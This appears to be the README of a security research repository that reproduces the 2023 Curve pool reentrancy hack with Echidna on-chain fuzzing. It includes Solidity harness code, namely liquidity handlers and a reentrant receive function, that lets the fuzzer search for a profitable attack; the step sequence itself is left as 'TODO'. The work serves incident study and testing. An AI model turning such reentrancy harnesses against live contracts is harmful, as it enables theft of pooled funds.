 # Curve Hack - Fuzzing Reproduction

## Description
This repository contains a reproduction of one of the hacks that occurred due to a reentrancy bug in Curve, caused by a compiler issue in Vyper. Assets stolen from the Curve pools due to this security flaw exceeded $41 million. For more details, refer to the [Vyper compiler saga](https://medium.com/rektify-ai/the-vyper-compiler-saga-unraveling-the-reentrancy-bug-that-shook-defi-86ade6c54265) on Rekt.

## Methodology
To reproduce the bug, we utilize Echidna's on-chain fuzzing. 

We define a single invariant to check if an attacker can increase their ETH balance.
```solidity
function testProfit() public {
    uint256 balance = address(this).balance;
    gte(initialBalance, balance, "Profit test");
}
```

We then add handlers to add and remove liquidity to the Curve pool, focusing solely on ETH for simplicity. By clamping, we ensure the fuzzer only adds or removes an amount within the attacker's current balance.
```solidity
    function addLiquidity(uint128 _amount) public {
        _amount = uint128(clampBetween(_amount, 0, address(this).balance));

        uint256[2] memory amount;
        amount[0] = _amount;
        amount[1] = 0;

        pool.add_liquidity{value: _amount}(amount, 0);
    }

    function removeLiquidity(uint128 _amount) public {
        _amount = uint128(
            clampBetween(_amount, 0, pool.balanceOf(address(this)))
        );

        uint256[2] memory amount;
        amount[0] = 0;
        amount[1] = 0;

        pool.remove_liquidity(_amount, amount);
    }
```

Given the hack involves reentrancy, we implement a rudimentary reentrancy handler in the `receive` function.
```solidity
    receive() external payable {
        if (reentrancyEnabled) {
            uint256 functionId = (reentrancyFunction % 2 == 1) ? 0 : 1;

            if (reentrancyFunction == 0) {
                addLiquidity(reentrancyAmount);
            } else if (reentrancyFunction == 1) {
                removeLiquidity(reentrancyAmount);
            }
        }
    }
```

The behavior of this handler is controlled by global variables, which are set by the fuzzer.
```solidity
    function setReentrancyEnabled(bool _reentrancyEnabled) public {
        reentrancyEnabled = _reentrancyEnabled;
    }

    function setReentrancyFunction(uint8 _reentrancyFunction) public {
        reentrancyFunction = _reentrancyFunction;
    }

    function setReentrancyAmount(uint128 _reentrancyAmount) public {
        reentrancyAmount = _reentrancyAmount;
    }
```

Echidna typically detects the bug within 5 minutes using a single worker. The sequence leading to the hacks can be seen below.
```
TODO
```

## Future Research
The current Proof of Concept is deliberately kept simple to optimize for fuzzing. Enhancing it to resemble a more comprehensive fuzzing suite could include:
-  Adding a handler for `exchange`
- Support for adding liquidity to all tokens in the pool
- Simulating multiple actors

While these additions would increase the complexity and slow down the fuzzing process due to a larger search space, they would still effectively reproduce the hack.

## Links
- https://medium.com/rektify-ai/the-vyper-compiler-saga-unraveling-the-reentrancy-bug-that-shook-defi-86ade6c54265
- https://hackmd.io/@LlamaRisk/BJzSKHNjn
-
